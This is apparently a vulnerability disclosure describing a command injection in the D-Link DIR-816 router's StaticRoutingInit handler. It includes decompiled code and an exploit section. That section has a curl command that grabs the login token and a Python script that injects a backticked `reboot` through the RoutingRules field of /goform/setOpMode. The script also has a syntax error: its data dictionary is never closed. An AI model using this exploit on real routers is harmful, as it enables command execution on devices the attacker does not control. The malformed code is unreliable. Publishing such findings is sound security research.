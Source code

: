 ## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `StaticRoutingInit` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](./img/1.png)

### Vulnerability details

If attackers access the path like`/goform/setMAC`, `/goform/setOpMode` and `/goform/wizard_end`, the server will call the `StaticRoutingInit` function. In this function, Attackers can control `v5` by setting the `RoutingRules`, then passed its value to `v13` and `v14`, finally call the `dosystem`.

```
    ...
    fclose(v3);
    result = websGetVar(a1, "RoutingRules", 0);
    v5 = result;
	...
        for ( result = getNthValueSafe(0, v5, 59, v13, 256); result != -1; result = getNthValueSafe(
	...
          if ( getNthValueSafe(0, v13, 44, v14, 32) == -1
            || getNthValueSafe(1, v13, 44, v15, 32) == -1
            || getNthValueSafe(2, v13, 44, v16, 32) == -1
            || getNthValueSafe(3, v13, 44, v17, 32) == -1
            || getNthValueSafe(4, v13, 44, v18, 32) == -1
            || getNthValueSafe(5, v13, 44, v19, 32) == -1
            || getNthValueSafe(6, v13, 44, v20, 32) == -1 )
          {
            ++v6;
          }
          else
          {
            strcpy(v21, "route add ");
            if ( !strcmp(v15, "255.255.255.255") )
              v12 = "-host ";
            else
              v12 = "-net ";
            strcat(v21, v12);
            strcat(v21, v14);
            strcat(v21, " ");
            if ( strcmp(v15, "255.255.255.255") )
              sprintf(v21, "%s netmask %s", v21, v15);
            if ( v16[0] && strcmp(v16, "0.0.0.0") )
              sprintf(v21, "%s gw %s", v21, v16);
            sprintf(v21, "%s dev %s ", v21, v18);
            strcat(v21, "2>&1 ");
            if ( !strcmp(v17, "WAN") && !v1 )
            {
              printf("Skip WAN routing rule in the non-Gateway mode: %s\n", v21);
              ++v6;
            }
            else
            {
              doSystem(v21);
              ++v6;
            }
```

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `RoutingRules`.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then, run exp.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/setOpMode'

data = {
    'tokenid': tokenid,
    'RoutingRules': {"net": "foo`reboot`bar", "destination": "255.255.255.255", "gateway": "192.168.0.1", "mask": "255.255.255.0"}

r = requests.post(url, data)
```
